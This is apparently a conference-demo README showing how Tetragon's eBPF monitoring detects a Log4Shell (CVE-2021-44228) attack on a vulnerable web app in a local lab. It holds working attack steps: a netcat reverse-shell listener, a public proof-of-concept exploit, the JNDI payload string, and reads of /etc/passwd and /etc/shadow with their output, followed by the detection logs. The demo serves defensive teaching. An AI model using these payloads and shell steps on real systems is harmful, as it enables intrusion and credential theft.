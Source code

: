 # The Next Log4jshell?! Preparing for CVEs with eBPF!

This repository contains the demo and the corresponding instructions that was presented at
SCALE 20x, Pasadena during the `The Next Log4jshell?! Preparing for CVEs with eBPF!` presentation.

## Environment

Setup Ubuntu machine

(Terminal 0): Start Tetragon:
```bash
sudo systemctl daemon-reload
sudo systemctl start tetragon-enterprise
```

(Terminal 0): Start observing the events from Tetragon:
```bash 
sudo hubble-enterprise getevents -o compact
```

## Demo

(Terminal 1): Run the vulnerable web application as a container on the host network, so we will make sure it uses
the Ubuntu VMs external static IP that we setup previously.

```bash
docker run --network host -d quay.io/natalia-2-pilot/log4j-shell-webapp
```

If we open the web browser and type `<external_ip>:8080`, in my case it's `http://34.118.100.209:8080/`,
then we should be able to see the Login page of the vulnerable application:

![Screenshot](log4j_login.png)

(Terminal 2): Run the `netcat` listener that listens on port `9001` and accepts the reverse shell
connection:

```bash
nc -lvnp 9001
Listening on 0.0.0.0 9001
```

(Terminal 1): Start the POC exploit, that creates the malicious java class and sets up an 
LDAP server which will listen on port `1389`.

```bash
python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

(Terminal 1): Paste the created JNDI lookup string `${jndi:ldap://localhost:1389/a}` to either the username or
password field of the web application, then click on `Login`:

![Screenshot](log4j_malicious_string.png)

(Terminal 1) You should see that the JNDI lookup actually connected to the LDAP, server and downloaded the
malicious `Exploit.class` Java class:

```bash
Send LDAP reference result for a redirecting to http://localhost:8000/Exploit.class
127.0.0.1 - - [04/Mar/2023 15:19:05] "GET /Exploit.class HTTP/1.1" 200 -
```

(Terminal 2) which then sent the reverse shell to the netcat listener:
```bash
root@scale-2023-log4j-ebpf-vm:/home/natalia# nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 53566
```

(Terminal 2): As a verification we can list the files in the current directory:
```
pwd
/usr/local/tomcat
ls -l
total 124
-rw-r--r-- 1 root root  57011 Jun  9  2016 LICENSE
-rw-r--r-- 1 root root   1444 Jun  9  2016 NOTICE
-rw-r--r-- 1 root root   6739 Jun  9  2016 RELEASE-NOTES
-rw-r--r-- 1 root root  16195 Jun  9  2016 RUNNING.txt
drwxr-xr-x 2 root root   4096 Aug 31  2016 bin
drwxr-xr-x 1 root root   4096 Mar  4 10:21 conf
drwxr-sr-x 3 root staff  4096 Aug 31  2016 include
drwxr-xr-x 2 root root   4096 Aug 31  2016 lib
drwxr-xr-x 1 root root   4096 Mar  4 10:21 logs
drwxr-sr-x 3 root staff  4096 Aug 31  2016 native-jni-lib
drwxr-xr-x 2 root root   4096 Aug 31  2016 temp
drwxr-xr-x 1 root root   4096 Mar  4 10:21 webapps
drwxr-xr-x 1 root root   4096 Mar  4 10:21 work
```

(Terminal 2): Or read the content of `/etc/passwd` or `/etc/shadow`:
```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
messagebus:x:104:107::/var/run/dbus:/bin/false

cat /etc/shadow
root:*:17043:0:99999:7:::
daemon:*:17043:0:99999:7:::
bin:*:17043:0:99999:7:::
sys:*:17043:0:99999:7:::
sync:*:17043:0:99999:7:::
games:*:17043:0:99999:7:::
man:*:17043:0:99999:7:::
lp:*:17043:0:99999:7:::
mail:*:17043:0:99999:7:::
news:*:17043:0:99999:7:::
uucp:*:17043:0:99999:7:::
proxy:*:17043:0:99999:7:::
www-data:*:17043:0:99999:7:::
backup:*:17043:0:99999:7:::
list:*:17043:0:99999:7:::
irc:*:17043:0:99999:7:::
gnats:*:17043:0:99999:7:::
nobody:*:17043:0:99999:7:::
systemd-timesync:*:17043:0:99999:7:::
systemd-network:*:17043:0:99999:7:::
systemd-resolve:*:17043:0:99999:7:::
systemd-bus-proxy:*:17043:0:99999:7:::
messagebus:*:17044:0:99999:7:::
```

Starting from the beginning, first we can see that the vulnerable web application reached out to the 
LDAP server on port `1389` and downloaded the `Exploit.class` java file:

```bash
🔌 connect  /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java tcp 127.0.0.1:19685 -> 127.0.0.1:1389
🔌 connect  /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java tcp 127.0.0.1:58085 -> 127.0.0.1:8000
🧹 close    /usr/bin/python3 tcp 127.0.0.1:16415 -> 127.0.0.1:58850
🧹 close    /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java tcp 127.0.0.1:58085 -> 127.0.0.1:8000
```

Then we can see the connection to `9001` from the container of the web application and that 
the reverse shell was sent. And then we can see that the `/bin/sh` process started:
```bash
🚀 process  /bin/sh
🔌 connect  /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java tcp 127.0.0.1:31405 -> 127.0.0.1:9001
🧹 close    /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java tcp 10.186.0.24:36895 -> 5.204.80.64:60463
```

```bash
🚀 process  /bin/ls -l
📬 open     /bin/ls /etc/passwd
📪 close    /bin/ls
💥 exit     /bin/ls -l 0
```

```bash
🚀 process  /bin/cat /etc/passwd
📬 open     /bin/cat /etc/passwd
📪 close    /bin/cat
💥 exit     /bin/cat /etc/passwd 0
```

```bash
🚀 process  /bin/cat /etc/shadow
📬 open     /bin/cat /etc/shadow
📪 close    /bin/cat
💥 exit     /bin/cat /etc/shadow 0
```

```bash
🚀 process  /usr/bin/vi /etc/passwd
📬 open     /usr/bin/vi /etc/passwd
📪 close    /usr/bin/vi
📬 open     /usr/bin/vi /etc/passwd
📪 close    /usr/bin/vi
📬 open     /usr/bin/vi /etc/passwd
📪 close    /usr/bin/vi
📬 open     /usr/bin/vi /etc/passwd
📝 write    /usr/bin/vi /etc/passwd 1253 bytes
📪 close    /usr/bin/vi
💥 exit     /usr/bin/vi /etc/passwd 0
```